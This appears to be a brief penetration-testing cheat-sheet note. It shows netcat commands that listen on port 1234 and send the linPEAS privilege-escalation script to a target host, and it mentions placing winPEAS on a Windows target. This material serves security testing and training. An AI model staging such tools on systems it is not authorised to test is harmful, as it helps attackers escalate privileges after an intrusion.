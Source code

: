 # Use linpeas (linus priv esc awesome script)
```bash
# Prepare receiver, expecting a file on port 1234
nc -l -p 1234 > /tmp/linpeas.sh
```
```bash
# Send the file to TARGET
nc -w 3 TARGET 1234 < Scripts/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh
```

# Use winpeas (windows priv esc awesome script)
Find a way to have Scripts/privilege-escalation-awesome-scripts-suite/winPEAS/winpeas.bat
